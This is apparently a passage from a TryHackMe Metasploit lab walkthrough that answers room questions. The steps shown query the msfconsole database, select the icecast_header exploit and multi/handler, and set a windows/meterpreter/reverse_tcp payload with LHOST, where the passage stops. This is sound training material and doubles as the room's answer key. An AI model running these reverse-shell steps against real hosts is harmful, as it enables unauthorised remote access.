    > msrpc

3. Let's go ahead and see what information we have collected in the database. Try typing the command `hosts` into the msfconsole now.

   If we type in `hosts`, we'll see that the database saves the host we scanned using nmap.

   > No answer needed

4. How about something else from the database, try the command `services` now.

   Again, after running the `services` command, the database will contain the services that run on the scanned machine.

   ![screenshot_services](room_metasploit/screenshots/services.png?raw=true)

   > No answer needed

5. One last thing, try the command `vulns` now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.

   > No answer needed

6. Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command `use icecast`. What is the full path for our exploit that now appears on the msfconsole prompt? * This will include the exploit section at the start

   > exploit/windows/http/icecast_header

7. While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command `search multi/handler`. What is the name of the column on the far left side of the console that shows up next to 'Name'? Go ahead and run the command `use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

   > #

8. Now type the command `use NUMBER_FROM_PREVIOUS_QUESTION`. This is the short way to use modules returned by search results.

   > No answer needed

9. Next, let's set the payload using this command `set PAYLOAD windows/meterpreter/reverse_tcp`. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command `set LHOST YOUR_IP_ON_TRYHACKME`. You might have to check your IP using the command `ip addr`, it will likely be your tun0 interface.
